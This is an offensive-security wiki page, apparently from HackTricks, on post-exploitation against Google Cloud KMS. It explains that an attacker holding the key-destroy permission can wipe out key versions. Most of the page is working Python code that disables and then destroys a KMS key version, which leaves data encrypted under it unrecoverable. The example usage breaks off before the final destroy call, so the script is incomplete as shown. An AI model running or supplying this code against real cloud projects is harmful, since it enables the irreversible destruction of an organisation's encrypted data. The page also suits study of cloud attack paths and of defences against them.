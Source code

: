 # GCP - KMS Post Exploitation

<details><summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>

## KMS

Find basic information about KMS in:

{% content-ref url="../gcp-services/gcp-kms-enum.md" %}
[gcp-kms-enum.md](../gcp-services/gcp-kms-enum.md)
{% endcontent-ref %}

### `cloudkms.cryptoKeyVersions.destroy`

An attacker with this permission could destroy a KMS version. In order to do this you first need to disable the key and then destroy it:
```python
# pip install google-cloud-kms

from google.cloud import kms

def disable_key_version(project_id, location_id, key_ring_id, key_id, key_version):
"""
Disables a key version in Cloud KMS.
"""
# Create the client.
client = kms.KeyManagementServiceClient()

# Build the key version name.
key_version_name = client.crypto_key_version_path(project_id, location_id, key_ring_id, key_id, key_version)

# Call the API to disable the key version.
client.update_crypto_key_version(request={'crypto_key_version': {'name': key_version_name, 'state': kms.CryptoKeyVersion.State.DISABLED}})

def destroy_key_version(project_id, location_id, key_ring_id, key_id, key_version):
"""
Destroys a key version in Cloud KMS.
"""
# Create the client.
client = kms.KeyManagementServiceClient()

# Build the key version name.
key_version_name = client.crypto_key_version_path(project_id, location_id, key_ring_id, key_id, key_version)

# Call the API to destroy the key version.
client.destroy_crypto_key_version(request={'name': key_version_name})

# Example usage
project_id = 'your-project-id'
location_id = 'your-location'
key_ring_id = 'your-key-ring'
key_id = 'your-key-id'
key_version = '1'  # Version number to disable and destroy

# Disable the key version
disable_key_version(project_id, location_id, key_ring_id, key_id, key_version)

# Destroy the key version
```